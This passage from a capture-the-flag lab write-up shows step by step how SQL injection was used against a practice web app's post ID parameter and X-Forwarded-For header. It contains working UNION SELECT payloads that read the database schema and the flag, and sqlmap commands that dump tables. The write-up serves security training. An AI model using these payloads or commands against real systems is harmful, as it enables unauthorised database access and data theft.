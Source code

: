 <span>&nbsp;</span>

Table information can be retrieved in two ways: manually through injection or using automation tools like sqlmap.
1. SQL injection via URL:
```SQL
/post?id=-1 UNION SELECT 1,(SELECT GROUP_CONCAT(table_name) FROM information_schema.tables WHERE table_schema='sqhell_5'),3,4-- -
```

![image-33](https://github.com/user-attachments/assets/059a245c-9b14-47a3-be4b-7564c09534f5)

```SQL
/post?id=-1 UNION SELECT 1,(SELECT GROUP_CONCAT(column_name) FROM information_schema.columns WHERE table_name='flag'),3,4-- -
```

![image-36](https://github.com/user-attachments/assets/35b14111-a045-4332-8d60-c7c0e0af41f3)

```SQL
/post?id=-1 UNION SELECT 1,(SELECT flag FROM flag LIMIT 0,1),3,4-- -
```

![image-37](https://github.com/user-attachments/assets/1726bfcf-0a3a-4d8c-88f2-b01839516f86)

<span>&nbsp;</span>

2. Use sqlmap
```BASH
sqlmap -u "http://$ip/post?id=2" --dbms=mysql -D sqhell_5 --tables --batch
```

![image-34](https://github.com/user-attachments/assets/15be73e1-df16-4e08-aea9-dadef8acbf38)

The sqhell_5 database contains three tables: flag, posts, and users. The contents of the flag table are dumped next.
```BASH
sqlmap -u "http://$ip/post?id=1" -D sqhell_5 -T flag --dump --batch
```

![image-35](https://github.com/user-attachments/assets/9d49d7b9-7c6c-4a99-8a69-847eb763d839)

<span>&nbsp;</span>

A hint in the "Terms and Conditions" page mentions IP logging, suggesting that IP addresses may be stored directly in the database, which is a possible injection point.
```BASH
sqlmap -u "http://$ip/terms-and-conditions" --headers="X-Forwarded-For: 127.0.0.1*" --dbms=mysql --batch
```

![image-9](https://github.com/user-attachments/assets/045f78d5-71cc-45d4-a730-e410f7fc262a)

Since HTTP headers cannot be modified directly via the browser, sqlmap is used to test for injection through the X-Forwarded-For header.
``` BASH
sqlmap -u "http://$ip/terms-and-conditions" --headers="X-Forwarded-For: 10.10.199.236*" --dbms=mysql --batch --technique=T --dbs
``` 
